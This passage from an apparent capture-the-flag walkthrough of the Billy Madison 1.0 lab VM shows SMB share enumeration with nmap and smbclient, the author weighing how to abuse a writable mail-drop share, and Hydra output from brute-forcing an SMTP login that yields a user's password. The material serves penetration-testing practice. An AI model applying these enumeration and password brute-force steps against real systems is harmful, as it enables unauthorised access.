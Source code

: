 |     Comment: IPC Service (BM)
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|_    Current user access: READ/WRITE

Nmap done: 1 IP address (1 host up) scanned in 13.41 seconds
root@kali:~/evidence/billymadison1.0# -
{% endhighlight %}

Sweet, `EricsSecretStuff` available anonymously with `READ/WRITE` permissions, that could be useful.  Connection to the share resulted in some files, confusion, and disappointment.

{% highlight bash %}
root@kali:~/evidence/billymadison1.0/ftp/eric# smbclient \\\\192.168.244.157\\EricsSecretStuff
WARNING: The "syslog" option is deprecated
Enter root's password:
Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.9-Ubuntu]
smb: \> ls
  .                                   D        0  Fri Sep 16 14:15:15 2016
  ..                                  D        0  Sat Aug 20 12:56:45 2016
  ._.DS_Store                        AH     4096  Wed Aug 17 08:32:07 2016
  160916031515031.eml                 N      436  Fri Sep 16 14:15:15 2016
  ebd.txt                             N       53  Fri Sep 16 14:37:01 2016
  .DS_Store                          AH     6148  Wed Aug 17 08:32:12 2016

                30291996 blocks of size 1024. 25838420 blocks available
smb: \>
root@kali:~/evidence/billymadison1.0/ftp/eric# -
{% endhighlight %}

Retrieving the files shows `ebd.txt` to say that "Eric's Backdoor is CLOSED", good to know.  And the .eml file actually contained the data I sent veronica!  I attempted to edit the file and put new files only to find that nmap was incorrect and we had Read-Only privileges.

So whatever I email gets placed into this directory, interesting... is this a monitoring technique, or something else?  At this point I spent some time thinking how I could exploit this, but as I could not edit files it wasn't a proper form of placing files on the system, and since I couldn't execute it was pointless.

Lets try to enumerate other users, I try `veronica` first.

{% highlight hydra %}
Hydra v8.2 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2016-09-13 13:22:08

[DATA] max 16 tasks per 1 server, overall 64 tasks, 801 login tries (l:1/p:801), ~0 tries per task
[DATA] attacking service smtp on port 2525
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[2525][smtp] host: 192.168.244.157 login: veronica password: veronicamars
[STATUS] attack finished for 192.168.244.157 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2016-09-13 13:22:09
{% endhighlight %}
